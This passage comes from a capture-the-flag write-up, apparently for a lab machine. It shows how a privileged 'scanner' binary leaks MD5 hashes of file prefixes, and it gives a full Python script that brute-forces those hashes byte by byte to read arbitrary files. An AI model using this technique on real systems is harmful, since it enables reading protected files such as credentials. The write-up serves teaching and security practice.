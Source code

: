 ```

greg@intentions:~$ /opt/scanner/scanner -c user.txt -p -l 5 -s whatever
[DEBUG] user.txt has hash 27334757be8cee7cc16219de94ded2a1
greg@intentions:~$ echo -n "11a99" | md5sum
27334757be8cee7cc16219de94ded2a1  -

```

Here I’m calling `scanner` with:
- `-c user.txt` - target `user.txt`
- `-p` - print debug
- `-l 5` - only consider the first 5 characters
- `-s whatever` - alert if the result matches “whatever”, which will never succeed, but that’s ok

The debug message prints the hash, which matches the MD5 of the first five characters of the file.

### Arbitrary File Read

If I can get the hash of the first byte of a file, then I can brute force all possible bytes and take their hashes and compare to get a match. Then I can do the same with the first two bytes, first three bytes, etc, until I have the full file.

This is more of a programming exercise than anything else. In [this video](https://www.youtube.com/watch?v=IkUmlFklWEs) I’ll walk through creating a Python script to abuse this binary to get file read:

The final script is:

```

#!/usr/bin/env python3

import hashlib
import subprocess
import sys

def get_hash(fn, n):
    """Get the target hash for n length characters of 
    filename fn"""
    proc = subprocess.run(f"/opt/scanner/scanner -c {fn} -s whatever -p -l {n}".split(),
                stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    try:
        return proc.stdout.decode().strip().split()[-1]
    except IndexError:
        return None

def get_next_char(output, target):
    """Take the current output and figure out what the
    next character will be given the target hash"""
    for i in range(256):
        if target == hashlib.md5(output + chr(i).encode()).hexdigest():
            return chr(i).encode()

output = b""
fn = sys.argv[1]

while True:
    target = get_hash(fn, len(output) + 1)
    next_char = get_next_char(output, target)
    if next_char is None:
        break
    output += next_char
    print(next_char.decode(), end="")

```
